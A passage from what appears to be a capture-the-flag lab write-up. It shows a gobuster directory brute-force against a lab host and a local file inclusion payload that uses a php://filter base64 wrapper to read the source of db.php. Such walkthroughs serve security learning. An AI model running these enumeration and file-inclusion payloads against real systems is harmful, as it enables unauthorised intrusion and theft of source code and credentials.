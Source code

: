 Now let’s start fuzz for any interesting files under this website

```bash
gobuster dir --url http://10.10.204.86/dev/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php
```

![image.png](../images/trusted%204.png)

and we got the db.php file so let’s get it’s content from the website

```bash
https://10.10.204.86/dev/index.html?view=php://filter/read=convert.base64-encode/resource=db.php
```

![image.png](../images/trusted%205.png)
